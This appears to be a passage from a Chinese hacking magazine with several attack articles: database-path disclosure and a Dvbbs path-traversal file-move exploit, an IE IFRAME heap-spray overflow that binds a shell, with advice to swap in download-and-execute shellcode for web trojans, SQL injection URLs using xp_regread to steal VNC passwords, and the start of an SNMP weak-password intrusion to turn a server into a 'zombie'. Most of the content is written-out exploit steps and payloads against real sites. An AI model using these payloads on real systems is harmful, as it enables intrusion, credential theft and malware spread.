

这是什么原因呢？让我们看看这个：

> "D:\web\power\access\inc\database\adsfkldfogowerjnokfdslwejhdfsjhk.mdb'不是一个有效的路径。确定路径名称拼写是否正确；以及是否连接到文件存放的服务器。"

目录结构我开始已经说了，主目录下存在INC目录（用于存放conn.asp）和DATABASE目录（数据库文件，即adsfkldfogowerjnokfdslwejhdfsjhk.mdb）。既然DATABASE目录并不在INC目录下，那为何刚才暴露数据库时却显示\inc\database\呢？这就是编写人员的一大疏忽。由于INC和DATABASE属于同级目录，当我们用editor.asp连接访问conn.asp时，DATABASE并没有在INC目录下，而系统确认为你是在请求\inc\database\adsfkldfogowerjnokfdslwejhdfsjhk.mdb这个文件，但事实上没有这个文件，系统找不到这个文件自然就报错啦！要解决这个问题，最直接的方法是把conn.asp置于数据库文件的上级目录或同一目录中。

### 二、动力论坛系统

根据上面动力文章系统的分析，我们可得到存在数据库路径泄露这个问题的程序的标志：

- 1. conn.asp和调用它的文件（如INDEX.ASP）不在同一目录。
- 2. conn.asp连接数据库用的是相对路径。

知道了漏洞的原理，再来理解动网得到数据库的方法也就不难了。前一段时间，阿奥发现了动网论坛的一个大漏洞，可转移任何文件。如果单纯利用这个漏洞，至多可把别人论坛文件删除，却得不到任何权限。那天我和紫幻讨论这个问题的时候，突然想到了一个方法，只要我们将这个漏洞结合动力文章得到数据库的方法，很容易就能想到得到动网论坛数据库的方法。

下面我们一起来看看吧！动网的漏洞出在mymodify.asp这个文件上，它对用户自定义头像的部分处理过于草率，我们可利用“/”、“\”来跳转目录并移动文件，看下面代码：

```vb
'****************
'对上传头像进行过滤与改名
if Cint(Forum_Setting(7))=1 then
    on error resume next
    dim objFSO, upfilename, newfilename
    dim upface, memberid
    set rs=conn.execute("select userid,face from [user] where userid="&userid)
    memberid=rs(0)
    upface=trim(rs(1))
    newfilename=""
    upfilename=split(upface,"/")
    if ubound(upfilename)=1 and upfilename(0)="uploadFace" then
        if instr(upfilename(1),"_")=0 then
            newfilename="uploadFace/"&memberid&"_"&upfilename(1)
            Set objFSO = Server.CreateObject("Scripting.FileSystemObject")
            if objFSO.fileExists(Server.MapPath(upface)) then
                objFSO.movefile ""&Server.MapPath(upface)&"",""&Server.MapPath(newfilename)&""
            end if
            If Err.Number = 0 Then
                conn.execute("update [user] set face='"&newfilename&"' where userid="&userid)
            end if
            set objFSO=nothing
        end if
    end if
    rs.close
    set rs=nothing
end if
'对上传头像进行过滤与改名结束
'***************
```

看这句：

```vb
newfilename="uploadFace/"&memberid&"_"&upfilename(1)
```

newfilename = 用户定义的头像变为 uploadFace/用户ID_upfilename 的另一部分

再看：

```vb
if objFSO.fileExists(Server.MapPath(upface)) then
    objFSO.movefile ""&Server.MapPath(upface)&"",""&Server.MapPath(newfilename)&""
```

看见没有？最关键的部分来了，如果检测到 upface 代表的文件存在，则对该文件进行移动并改名！好了，代码分析完毕，看看我们到底应该怎样利用它？注册一个用户，进入“基本资料修改”的页面后，关键部分就要来了。大家还记得玩 snowfiles 类文件时跳转目录来看资料吗？类似下面的 URL，我们就利用“../”来跳转目录对 passwd 文件进行查看：

```text
http://www.target.com/show.php?file=../../../../../../etc/passwd%00
```

相信大家都在那里把“/”、“\\”、“.”和“..”的作用了解了吧！呵呵！下面我们要做的就是跳转目录，把 conn.asp 转移过来。在“自定义头像地址”那里添上这样的一句：

```text
uploadFace/../../conn.asp （注意大小写）
```

前面已经分析过代码了，这句话的意思应该看得懂吧！我们把“头像”地址指向了上级目录的 conn.asp。由于符合它的前判断条件，upface 存在，所以它会把 conn.asp 这个文件转移到 uploadFace 这个目录。这样，就符合我们玩动力文章系统时的第一个条件了。一般大家用的都是相对路径，所以下面我们只要调用这个文件就会知道数据库路径。新建一个 HTML 文件，写上如下内容：

```html
<IFRAME marginWidth=0 marginHeight=0 src="http://www.target.com/dvbbs/uploadFace/conn.asp" frameBorder=0 width=500 scrolling=noshade height=400></IFRAME>
```

再打开这个 HTML 文件，看看，数据库路径出来了吧（图3）！



> 看来问题都出在 conn.asp 本身，不打自招。为了安全，我们得好好处理一下它。最笨的方法就是把它改名，让别人猜不到路径。但它要被很多文件调用，还得改其它地方。我们用相对路径时，数据库路径会随着调用 conn.asp 文件而改变，从而产生错误。那么，我们就让连接数据库使用绝对路径，这样一来，不管谁调用 conn.asp，数据库路径都不变了。

我在测试动网这个漏洞时，发现对一些比较新的版本，就算是文件挪移成功了，也显示不出数据库路径。但有的 6.0 版本有效。看来新的动网论坛版本对 conn.asp 进行了特殊处理。对比了一下两个不同的 conn.asp，发现新的 conn.asp 增加了这么一句：

```vb
On Error Resume Next
```

这样一来，就是出错了不提示数据库信息，打死了也不招！当然，以上那些方法结合起来使用就更好了！数据库，你藏好了吗？

### 四、暴库的假象（紫幻）

前面 sniper 提到了一些利用 conn.asp 来暴出数据库路径，这个漏洞确实存在，漏洞真正产生原因是程序编写人员的疏忽所导致。由于 INC 和 DATABASE 属于同级目录，当我们用 editor.asp 连续访问 conn.asp 时，由于 DATABASE 并没有在 INC 目录下，而系统就认为你是在请求 \inc\database\adsfklkifogowerjnokfdslwejhdfsjhk.mdb 这个文件，而实际上没有这个文件。系统找不到这个文件，自然就报错！要解决这个问题，最直接的方法就是和动网那样使 conn.asp 处于数据库文件的上级目录或同一个目录中。

暴库的方法是如文章前面所提到的这个页面，也就是：

```html
<IFRAME marginWidth=0 marginHeight=0 src="http://www.xxx.com/inc/conn.asp" frameBorder=0 width=500 scrolling=noshade height=400></IFRAME>
```

怪物和 sniper 所研究的这个页面其实是在本地构造出一个 conn.asp 的请求页面，然后读取到 conn.asp 里的信息而已。他们的思路的确比较灵活，这点无可质疑！但方法有些麻烦。我们先来看一下直接用浏览器浏览这个 conn.asp 会返回什么信息。测试地址：http://www.xxx.com/inc/conn_user.asp 浏览器返回图4所示信息。看到了吗？显示“HTTP 500 服务器内部错误”，看不到 conn.asp 的内容。先来分析一下原因，给读者介绍一点常识：IWAM 叫作“集成后端 Active Directory、IIS metabase 数据库和 COM+ 应用程序三方共同使用，帐号密码被三方分别保存，并由操作系统负责这三方保存的IWAM 密码的同步工作”。

按常理说，由操作系统负责的工作我们大可放心，不必担心出错，但不知道 BUG 还是其它什么原因，系统对 IWAM 帐号的密码同步工作有时会失败，使三方 IWAM 帐号所用密码不统一。当 IIS 或 COM+ 应用程序使用错误的 IWAM 密码登录系统，启动 IIS Out-Of-Process Pooled Applications 时，系统会因密码错误而拒绝这一请求，导致 IIS Out-Of-Process Pooled Applications 启动失败，也就是我们在 ID10004 错误事件中看到的“不能运行服务器：{3D14228D-FBE1-11D0-995D-00C04FD919C1}”（这里 {3D14228D-FBE1-11D0-995D-00C04FD919C1} 是 IIS Out-Of-Process Pooled Applications 的 KEY），不能载入 IIS 应用程序，HTTP 500 内部错误就这样产生了。



通过以上的简单描述，大家就会对“HTTP 500 服务器内部错误”有个初步认识。一般产生“HTTP 500 服务器内部错误”的表现为静态页面，可以正常显示。只有动态的 web 程序（比如 ASP）才会出现这样的原因。

好了，基础知识就介绍这么多，现在回到正题。sniper 提到的爆库办法需要构造一个页面来查看 conn.asp 中的内容，认为利用了这个页面就是爆库，其实事情的本质不是这样。换句话说，只要 INC 和 DATABASE 不是同一个目录，我们用 IE 就可查看 conn.asp 中的内容。

前面我提到了，直接用 IE 请求 inc 目录的 conn.asp 会产生“HTTP 500 服务器内部错误”。其实，“HTTP 500 服务器内部错误”属于友好提示，这些信息都保存在 IIS 里的自定义错误。请看图 5。





运行 http://www.xxx.com/inc/conn_user.asp 后，IE 会显示“HTTP 500 服务器内部错误”，出现错误以后开始设置你的 IE，绕过“HTTP 500 服务器内部错误”，从而看到 conn.asp 中的信息。

具体方法为：Internet Explorer → 属性 → 高级 → 把“显示友好 http 错误信息”的勾去掉（图 6）。

勾掉“显示友好 http 错误信息”后，再回去看刚才出现“HTTP 500 服务器内部错误”的 http://www.xxx.com/inc/conn_user.asp（图 7）。

> `D:\edu12\web\zkbbs\ACCESS\inc\Database\useryvewuhjdj31434132234hgutwehdskjwewyt.mdb` 不是一个有效的路径。确定路径名称拼写是否正确，以及是否连接到文件存放的服务器。

怎么样？是不是看到了？

不需要那个页面也同样可以。所以说“爆库”只是一种假象，只要 DATABASE 没有在 INC 目录下，就可用 IE 直接看到 conn.asp 中的内容。

下面再来分析一下动网论坛的 uploadFace/../../conn.asp “爆库”问题。至于漏洞分析，上面已经介绍得很清楚，我就不再说了。但我在具体测试时，发现 N 多动网论坛存在此漏洞，但并不能成功转移 conn.asp 文件。我先来为大家分析一下原因。

有很多服务器设置 NTFS 权限很严格，只给 web 目录读取和写入权限还有列目录权限，并没有执行权限，所以导致不能成功。当然，有些动网论坛已经做了防御，也会导致不能成功，请读者回去自己摸索，因为不同站点的设置是不一样的。

再来说说能成功剪切 conn.asp。成功以后，conn.asp 就被剪切到 uploadFace 目录下，然后直接修改 IE 设置就可看到 conn.asp 中的内容，根本用不到那个 htm 页面。



# 一个人的战争

## IE FRAME Tag 溢出漏洞的简单利用

孟方明（-273℃）

### 一、漏洞简述

在 Windows 系统中有一个 SHDOCVW.DLL 文件负责提交 IFRAME 和 EMBED 标签内容。然而不幸的是，这个 DLL 文件有一个漏洞允许攻击者在远程 Windows 系统中执行任意代码。主要受影响的软件就是 Internet Explorer（IE 浏览器），但使用 WebBrowser ActiveX 控件的其它软件（比如说 Outlook、Outlook Express、AOL、Lotus Notes）也受此漏洞的影响。所有安装有 IE 6.0 的 Windows 2000 SP4 和 XP SP1 都受此漏洞的影响（XP SP2 除外）。

其它详细情况可以参阅《总结 Windows 下堆溢出的三种利用方式》。

好了，堆溢出的简单介绍就到这里了。下面我们来看本次所涉及漏洞的情况。当对 IFRAME、FRAME 和 EMBED 等 HTML 标签中的 NAME 和 SRC 属性赋予超长字符串值时就会触发此漏洞，这是因为 IE 处理 IFRAME 标签的时候会调用 SHDOCVW.DLL 中 SetFrameName 函数进行 IFRAME 的 NAME 拷贝时，没有进行边界检查而导致溢出。因此我们可以构建一个包含恶意代码的 HTML 文档来触发此漏洞。庆幸的是我们已经可以在网上找到漏洞的相关利用程序了。我们可以大体看一下它的代码，如图 1 所示。

### 二、漏洞分析

此溢出漏洞是一个堆溢出，新手朋友也许对栈溢出已经是相当熟悉了（前几期《X档案》上的菜鸟溢出文章都是以栈溢出为基础的），但是对于堆溢出也许还比较陌生。首先我们来看一下堆的概念吧。学习过 C++ 等面向对象编程的朋友都知道，我们在编程中频繁打交道的就是对象这个东西了。我们总是要去创建对象，然后释放对象，而堆就是用来动态地分配和释放程序所使用的对象的，堆使用运行期间分配给代码和堆栈以外的部分内存。那么什么情况下会使用堆操作呢：

- 1. 事先不知道程序所需对象的数量和大小。
- 2. 对象太大，不适合使用堆栈分配器。

堆的概念简单地介绍到这里，要想更深入地了解这方面的细节需要你去阅读 MSDN 或者 Windows 编程方面的书籍了。至于堆溢出方面的文章，网上所能找到的最经典的恐怕就是安全焦点的 watercloud 写 的《总结 Windows 下堆溢出的三种利用方式》，有兴趣的读者可以去查阅。我这里只简单地说一下堆的内存分配情况：堆管理结构（8字节）| 堆真正可操作空间 | 下一个空闲堆的管理结构（8字节）| 两个双链表指针（8字节）。

懂 JavaScript 的朋友应该不难看懂的，这个 exploit 触发溢出的方式是创建一个非常大的堆块，这个堆里包含的全部是 0x0d（我们称这个堆为 nops 滑块），紧跟在这个堆后面的就是我们的 shellcode，这样做的目的就是为了让 0x0d0d0d0d 所指向的值还是 0x0d0d0d0d，这样我们就可以使得 IE 在我们的堆内滑动，直到滑到我们的 shellcode 上然后执行。从 exploit 上来看就是在：

```asm
7178EC02  8B08        MOV  ECX, DWORD PTR [EAX]
; ([0x0D0D0D0D] == 0x0D0D0D0D, so ecx == 0x0D0D0D0D)
7178EC04  6884 7B07   PUSH 71707B84
7178EC09  50          PUSH EAX
7178EC0A  FF11        CALL NEAR DWORD PTR [ECX]
```

当执行到 7178EC0A 的时候就会跳转到 ECX 所指向的地址去执行，而 ECX 所指向的地址就是我们使用 nops 滑块填充的大内存区域，也就是用 0x0d 填充的堆。这样我们就可以使得 0x0d0d0d0d 总能指向我们的 JavaScript 所申请的内存块。

理论讲了这么多让我们实际动手分析一下吧。打开 OllyDbg，依次打开“文件”→“打开”→找到 Program Files\Internet Explorer\iexplore.exe。然后按 F9 运行，如图 2。

然后在弹出的 IE 窗口中依次选择“文件”→“打开”→“浏览”→找到我们的 exploit 文件“internetexploiter.html”（图 3）。

确定后，在任务栏里的那个绿色的监控内存和 CPU 状况的小软件显示出内存在狂降（我的内存是 512MB），当 IE 的状态栏出现“完毕”字样后，我的内存一直继续降到 6MB（由于内存太小了，我无法抓图，还请朋友见谅）。这个过程就是我们的 nops 滑块创建的过程，当 IE 出现完毕字样后，我们打开一个 CMD 窗口，然后输入 `netstat -an` 看看，如图 4 所示。看样子我们是成功了，shellcode 已经正确执行且一个 shell 已经绑定在 28876 端口了。

我们 telnet localhost 28876 试一下，结果如图 5 所示。

回到我们的 OllyDbg 上来，按 Ctrl + G 进行跟随，输入地址 0d0d0d0d 后确定，看看我们到了哪里（图 6）。一大片的 0d0d0d0d，我们一直往后拖动，直到图 6 所指示的地方，在 0d0d0d0d 内存块的尾部就是我们的 shellcode 了。

### 三、漏洞利用

分析就到此为止了，下面看看利用。首先大家有可能会想到用它来做网页木马。在以前，众多的 IE 漏洞都光荣成了网页木马最好的实现者，然而由于此漏洞的特殊性，却剥夺了它在网页木马中的功能。为什么呢？大家有没有照着我上面的分析中的去做？是不是感觉卡死了？想象一下，我的内存是 512MB，测试的时候第三方应用软件几乎都没打开，空闲内存达到 400 多 MB，可是一测试起来内存却急剧下降。这是因为这个漏洞的 exploit 所采用的特殊溢出方式也就是我上面所说的暴力扩内存，这样造成了内存的大量占用。如果一个朋友在浏览网页，同时又开着 QQ 等等，浏览到你的网页木马时会出现假死状况，这样对于有经验的人来讲肯定会有所怀疑。

不过我们可以用一个具有 download 功能的 shellcode 来替换 exploit 中的 shellcode，这样的话一旦溢出成功就会从网上 down 一个程序下来并执行，即使当时出现假死状况，被我们修改的 shellcode 已经执行，后门还是会乖乖地被 down 下来的。至于怎么替换呢？好说啊，网上有的是 download 的 shellcode，去红盟也能找到，下一个进行一次 Unicode 编码，然后替换 exploit 的 shellcode，修改一下原 exploit 即可（具体方法不在本文讨论范围之内，有兴趣的读者可以来《X档案》论坛讨论）。

那么除了网页木马外我们还能做什么呢，权限提升？不，由于我们溢出的是 IEXPLORE，而 IEXPLORE 的权限继承自运行它的用户权限。所以说，我们虽然可以在普通权限下使用该漏洞溢出成功（图 7），但是我们获得的 shell 依然还是普通权限。

最后让我们期待这个漏洞的一个更好的利用方法吧！有问题的朋友可以一起来 X 讨论。

（光盘中有收录本文的例子程序 InternetExploiter.html）

---

### ASP+MSSQL 注入读取 VNC 密码

相信大家对 ASP+MSSQL 注入这种攻击方法已经很熟悉了，现在连一个对 SQL 语法丝毫不懂的人也可以用 NBSI 来轻松入侵大黄网站。但就算是一个 SQL INJECTION 高手，如果针对在 MSSQL 中只有 db_owner 角色，破不出猜不到网站后台的情况下，好像也无技可施；除了用备份得到 shell 的这个思路外，我在网上寻找并没有发现更好的入侵办法。不过，恰巧碰到 shell 只是理论化的东西，如果一个 webshell 有 20MB 的话，你还能用它吗？

前不久，我就碰到了这样的一个台湾网站，管理员的密码倒是用 NBSI 跑了出来，可是用户名因为是繁体的原因在 NBSI 中成了一堆乱码。我也进到“后台”，由于那个注入点没有 UPDATE 权限我只有瞪眼的份儿，怎么办？我又扫了它的所有端口，发现开了 5900。估计是管理员用了 VNC 对服务器进行远程控制。这时，我就有一个思路，能不能把 VNC 在注册表的加密密码读出来再来破解呢？

后来我又开始在本机装了 VNC，在 SQL 分析器里面做测试。首先 TELNET 服务器的 5900 端口，得到讯息和我测试本机装的 VNC 返回值一样（图 1），证实服务器的确用的是 VNC。

相信大家都会用 `xp_regread` 来读注册表了，依次提交如下语句：

```sql
http://www.something.com/script.asp?id=2;create table [dbo].[cyfd] ([gyfd][char](255));
```

这样我们就成功地建了一个名为 cyfd 的表，并且添加了类型是 char，长度为 255 的字段名 gyfd。然后向表中加载：

```sql
http://www.something.com/script.asp?id=2;DECLARE @result varchar(255) EXEC master.dbo.xp_regread 'HKEY_CURRENT_USER','Software\ORL\WinVNC3','Password',@result output insert into cyfd (gyfd) values (@result);--
```

从注册表中读出 VNC 在注册表的加密密码的值，再把值插入到刚创建的表中。然后爆出 VNC 在注册表的加密密码：

```sql
http://www.something.com/script.asp?id=2 and 1=(select count(*) from cyfd where gyfd > 1)。
```

可是结果大失我所望，gyfd 的值是空的。如果这样容易的话，就不会有这篇文章出现了。这是什么原因呢？我的语法不正确？谢米也检查我的语句并没有发现错误呀。难道繁体的 VNC 在注册表里的位置不一样？

后来我询问了 czy，他劝我把 gyfd 的这个字段改成二进制数据类型 binary 来试一下。于是我又在本机测试了一下，在查询分析器里提交如下语句（图 2）：

```sql
create table [dbo].[cyfd] ([gyfd][binary](20));
DECLARE @result binary(20)
EXEC master.dbo.xp_regread
'HKEY_CURRENT_USER','Software\ORL\WinVNC3','Password',
@result output
insert into cyfd (gyfd) values(@result);--
```

结果倒是出来了，得到了 VNC 的加密密码值是 0x0E3515AC00000000000000000000000000000000（图 3）。

可这儿还有个问题，我在本机装的 VNC 在注册表里的密码值是 HEX：0e,35,15,ac,00,62,d3,08 啊。原来 binary(n) 的数据存储长度是固定的，当输入的二进制长度小于 n 时，余下长度填 0 补充。我在注入语句中的 binary(20) 是足够写入 VNC 加密密码的长度了，为什么还有那么多 0 来填充呢？这是因为正好我的 VNC 密码是 0e3515ac0062d308，存到 00 的情况下，`xp_regread` 以为已经读完它的值了，把 00 当成了结束符，所以只读到了 0x0E3515AC，我晕！还有一个问题，就是用 NBSI 跑 binary 类型的值会是一堆乱码，所以这个语句暂且是不能用了。

翻了一下书，终于让我找到了一个特殊的数据类型 uniqueidentifier，是用来存储一个 16 字节长的二进制数据类型。把注入语句改造一下：

```sql
http://127.0.0.1/script.asp?id=2;create table [dbo].[cyfd] ([gyfd][uniqueidentifier]);
http://127.0.0.1/script.asp?id=2;DECLARE @result uniqueidentifier EXEC master.dbo.xp_regread 'HKEY_CURRENT_USER','Software\ORL\WinVNC3','Password',@result output insert into cyfd (gyfd) values(@result);--
```

然后再用 NBSI 跑一下，跑出来了，不过得到的结果是 AC15350E-6200-08D3-0000-000000000000。和我在注册表里的正确的 VNC 密码的值 0e3515ac0062d308 相比，排列顺序是颠倒的。试一下用 Cain 破出 VNC 的密码，看看行不行（图 4）。

看样子在本机做的测试一切成功，这方法用到台湾上的站点试试，哎，依然没能跑出 VNC 的密码，也许繁体 VNC 在注册表的位置不同吧。不过，我研究了一上午，有了一点收获，就放过你吧！

---

## SNMP 弱口令：在一次渗透过程中的应用

作者：dugu

（文中涉及的相关工具 Cain，VNC 已收录在本期光盘）

论坛里常常见到有人问 SNMP 的弱口令怎么利用，其实网上已经有了一些关于 SNMP 弱口令利用方法的介绍。这次入侵时 SNMP 弱口令就给了我很大的帮助，于是就把入侵过程记录下来，希望给大家一些启发。

最近看到某个主页做得很烂，似乎很长时间没有做过维护了，不巧他的网速很快，于是我有了把他做成肉鸡的念头。首先当然是刺探信息了，X-Scan 扫了一会儿，结果出来了：

```
主机地址: 202.*.*.*
端口/服务:
21/tcp   ftp       发现安全提示
23/tcp   telnet    发现安全提示
1080/tcp unknown   发现安全提示
80/tcp   www       发现安全漏洞
3389/tcp unknown   发现安全提示
161/udp  snmp      发现安全漏洞
漏洞详情: snmp (161/udp) snmp 口令: "public"
```

